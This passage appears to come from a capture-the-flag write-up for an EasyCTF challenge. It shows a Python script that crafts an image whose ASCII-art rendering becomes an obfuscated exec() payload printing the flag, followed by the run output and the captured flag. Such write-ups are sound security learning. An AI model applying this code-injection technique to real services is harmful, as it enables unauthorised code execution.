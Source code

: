 ```python

    # Only checking the first line which should contain our entire payload
    split_result = arr.split('\n')[0].split(' ')

    # Checking if any "unit" 
    idx_to_change = check_payload_from_model(split_payload, split_result)

    # Payload doesn't need to be changed anymore!
    if idx_to_change == -1:
        print(' '.join(split_result))
        # Writing the image to "payload.png"
        Image.frombytes('RGB', (dim_img, height), rgb_string * height).save('payload.png')
        break

    split_payload[idx_to_change] = ' ' + split_payload[idx_to_change]
    payload = ' '.join(split_payload)
```

We run the code:

```bash
$ python3 make_payload.py 
            exec(chr(110 + 1 +   1) + "r" + chr(100   + 1 + 1 + 1 + 1 +    1) + chr(110) +      chr(110 + 1 + 1 +   1 + 1 + 1 + 1) +     "(" + chr(100 + 1 +  1) + chr(110 - 1 -   1) + chr(100 - 1 -   1 - 1) + chr(1 +     100 + 1 + 1 + 1 % 1)  + ")")
```

and we obtain a payload that looks right!

Let's try the generated picture with `asciinator.py`:
```bash
$ python3 asciinator.py payload.png 
            exec(chr(110 + 1 +   1) + "r" + chr(100   + 1 + 1 + 1 + 1 +    1) + chr(110) +      chr(110 + 1 + 1 +   1 + 1 + 1 + 1) +     "(" + chr(100 + 1 +  1) + chr(110 - 1 -   1) + chr(100 - 1 -   1 - 1) + chr(1 +     100 + 1 + 1 + 1 % 1)  + ")")                                             
<redacted>
```

Yep, that was the flag!

Now we just have to upload the image to the website aaaand… Flagged!

**Flag: easyctf{wish_thi5_fl@g_was_1n_ASCII_@rt_t0o!}**

## Conclusion

Although the CTF mostly contained easy challenges, this one made me think a bit and I really enjoyed doing it! Will probably play this CTF again next year!
